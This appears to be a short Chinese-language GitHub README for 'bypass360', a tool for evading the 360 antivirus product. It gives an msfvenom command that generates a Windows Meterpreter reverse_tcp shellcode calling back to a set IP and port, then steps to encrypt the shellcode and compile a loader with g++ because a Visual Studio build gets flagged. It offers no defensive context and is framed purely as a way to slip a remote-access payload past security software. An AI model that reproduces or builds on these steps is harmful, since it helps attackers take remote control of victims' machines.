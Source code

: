 # bypass360

1. 生成shellcode：msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.65.158 LPORT=1337 -f c

2. .\echoS.exe  msf生成的shellcode  密码 shellcode的size

3. 编译命令g++ -o 360.exe main.cpp lazy_importer.hpp
4. 实现的代码很简单，问chatGPT即可


echoS也可自行编译

为啥要用g++？因为用vs2019会报毒

![](3.png)
![](1.png)
![](2.png)
